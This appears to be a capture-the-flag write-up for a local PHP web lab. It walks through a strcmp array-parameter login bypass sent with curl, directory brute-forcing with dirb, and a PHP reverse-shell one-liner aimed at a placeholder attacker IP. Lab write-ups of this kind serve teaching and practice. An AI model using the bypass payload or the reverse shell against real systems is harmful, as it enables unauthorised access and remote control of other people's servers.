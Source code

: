 # CTF 2: PHP Cracken

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master)
to get the php 7.3 version and installed apache2 on it.

## Challenge 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
 curl -X POST --data "username=admin&password[]=%22%22&submit=Login" http://127.0.0.1/admin/index.php
```

## Challenge 2
Use a Web Content Scanner to perform a dictionary-based attack against a web server. 
```sh
dirb http://127.0.0.1 /usr/share/wordlists/dirb/common.txt
```

## Challenge 3
Use Reverse Shell to gain a foothold in the system.
Using a tool like `netcat` to host the reverse shell.
```sh
php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
